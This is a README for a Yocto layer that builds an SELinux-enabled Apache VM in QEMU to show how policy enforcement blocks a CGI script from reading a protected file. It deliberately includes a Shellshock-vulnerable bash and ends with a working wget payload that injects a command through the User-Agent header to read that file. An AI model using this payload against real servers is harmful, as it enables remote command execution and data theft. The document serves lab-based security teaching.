 Checkout CGX4.0 BSP per procecures

In the layers directory, checkout:
  https://github.com/MontaVista-OpenSourceTechnology/meta-apacheconf.git

In project/conf/bblayers, add:
  ${TOPDIR}/../layers/meta-apacheconf \
to the BBLAYERS variable.

Add the following to project/conf/local.conf:
  DISTRO_FEATURES:append = " acl xattr pam selinux"
  PREFERRED_PROVIDER_virtual/refpolicy ?= "refpolicy-apacheconf"
  DEFAULT_ENFORCING="permissive"

In the project directory, run:
  bitbake core-image-selinux-apacheconf

To run the VM, do:

  qemu-system-x86_64 --machine q35 -m 1G -enable-kvm -drive file=tmp/deploy/images/x86-generic-64/core-image-selinux-apacheconf-x86-generic-64.ext4,format=raw -nographic -net nic,model=e1000,macaddr=52:54:00:12:34:61 -net user,hostfwd=tcp::5556-10.0.2.15:22,hostfwd=tcp::8080-10.0.2.15:80 -kernel tmp/deploy/images/x86-generic-64/bzImage-x86-generic-64.bin -append "root=/dev/sda console=ttyS0,115200 selinux=1 enforcing=0"

/etc/network/interfaces should have:

  auto eth0
  iface eth0 inet dhcp

in it, per the recipe, but you should make sure.  It may need to be
adjusted if your network device isn't eth0, or that can be fixed in
the apacheconf layer.

/etc/syslog-ng/syslog-ng.conf is fixed in this layer to comment out
the lines that have d_xconsole in them.  This will eliminate some
denials; syslog-ng will try to log to the X server but the X server is
not configured in the policy.

/etc/apache2/httpd.conf will have cgid_module uncommented by the webif
package.

By default /etc/selinux/config should have:

  SELINUX=permissive

Scripts are in /usr/libexec/apache2/modules/cgi-bin.  In that
directory, the script webif is what we will be using.  The
recipes-apps/webif recipe will build this, you can modify that to do
different things if you like.

You will be running with selinux enabled but in permissive mode, so if
an invalid access happens it will be allowed but an audit log will
print.  You should be able to connect your browser to localhost:8080
to talk to apache in qemu, and you can do: ssh -p 5556 root@localhost
to log in to the VM.

You can pass parameters to the test-cgi script by doing something like:
  http://localhost:8080/cgi-bin/webif?parm1=a&parm2=b

Those parms will show up in the QUERY_STRING environment variable.  In
the future, you could use those to pass things in to do differnt
things.

Unfortunately, the standard apache policy give wide-ranging access to
thing in /etc and other places.  I found that /var/run/sshd.pid is not
allowed, though.  I have added a program /usr/bin/supsec that accessed
the file /usr/share/super-secret/data that is not allowed.

By default webif will try to run /usr/bin/supsec and access
/usr/share/super-secret-data.  You will see "Super Secret Data" in the
output of the web page if enforcement is off, and errors if
enforcement is on.

If you run:
  setenforce 1

it will enable full enforcement and you will get audit logs and
invalid accesses will be denied.

This repository also contains an shellshock vulnerable version of
bash.  To exploit it, on the host run:
  wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/share/super-secret/data" http://localhost:8080/cgi-bin/webif

This is from https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
